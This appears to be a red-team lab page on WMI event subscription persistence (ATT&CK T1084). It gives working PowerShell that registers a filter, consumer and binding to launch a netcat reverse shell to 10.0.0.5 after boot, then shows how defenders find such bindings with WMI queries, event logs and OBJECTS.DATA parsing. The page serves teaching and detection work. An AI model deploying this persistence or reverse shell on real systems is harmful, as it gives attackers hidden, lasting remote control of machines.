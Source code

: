 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1084: Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for \(i.e on new process created, on new disk added, etc.\)
* event consumers - consumers can carry out actions when event filters are triggered \(i.e run a program, log to a log file, execute a script, etc.\)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers to get invoked.

WMI Events can be used by both offenders \(persistence, i.e launch payload when system is booted\) as well as defenders \(kill process evil.exe on its creation\).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:

{% code title="attacker@victim" %}
```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```
{% endcode %}

Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode %}

## Observations

Note the process ancestry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:

![](../../../.gitbook/assets/wmi-shell-system.png)

On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:

{% code title="\_\_EventFilter@victim" %}
```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```
{% endcode %}

Note the `Query` property suggests this wmi filter is checking system's uptime every 5 seconds and is checking if the system has been up for at least 1200 seconds:

![](../../../.gitbook/assets/wmi-filter.png)

Event consumer, suggesting that the `shell.cmd` will be executed upon invokation as specified in the property `ExecutablePath`:

{% code title="\_\_EventConsumer@victim" %}
```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription
```
{% endcode %}

![](../../../.gitbook/assets/wmi-consumer.png)

{% code title="\_\_FilterToConsumerBinding@victim" %}
```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```
{% endcode %}

![](../../../.gitbook/assets/wmi-binding.png)

Microsoft-Windows-WMI-Activity/Operational contains logs for event `5861` that capture event filter and event consumer creations on the victim system:

![](../../../.gitbook/assets/wmi-filter-consumer-creation.png)

## Inspection

If you suspect a host to be compromised and you want to inspect any `FilterToConsumer` bindings, you can do it with PSRemoting and the commands shown above or you can try getting the file`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA`

Then you can use [PyWMIPersistenceFinder.py](https://github.com/davidpany/WMI_Forensics) by David Pany to parse the `OBJECTS.DATA` file and get a list of bindings like:

```bash
./PyWMIPersistenceFinder.py OBJECTS.DATA
```

![](../../../.gitbook/assets/wmi-parser.png)

### Strings + Grep

If you are limited to only the native \*nix/cygwin utils you have to hand, you can get a pretty good insight into the bindings with the following command:

```csharp
strings OBJECTS.DATA | grep -i filtertoconsumerbinding -A 3 --color
```

Below are the results:

![](../../../.gitbook/assets/wmi-strings-grep.png)

From the above graphic, we can easily see that one binding connects two evils - the evil consumer and the evil filter.

Now that you know that you are dealing with `evil` filter and `evil` consumer, use another rudimentary piped command to look into the evil further:

```csharp
strings OBJECTS.DATA | grep -i 'evil' -B3 -A2 --color
```

Note how we can get a pretty decent glimpse into the malicious WMI persistence even with simple tools to hand - note the `C:\shell.cmd`and `SELECT * FROM` ... - if you recall, this is what we put in our consumers and filters at the very [beginning](./#execution) of the lab:

![](../../../.gitbook/assets/wmi-strings-grep2.png)

## References

Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below:

{% embed url="https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/" caption="" %}

{% embed url="https://www.youtube.com/watch?v=0SjMgnGwpq8" caption="" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1084" caption="" %}

{% embed url="https://www.darkoperator.com/blog/2013/1/31/introduction-to-wmi-basics-with-powershell-part-1-what-it-is.html" caption="" %}

{% embed url="https://pentestarmoury.com/2016/07/13/151/" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396" caption="" %}

{% embed url="https://www.eideon.com/2018-03-02-THL03-WMIBackdoors/" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/embedded/aa940177\(v=winembedded.5\)" caption="" %}

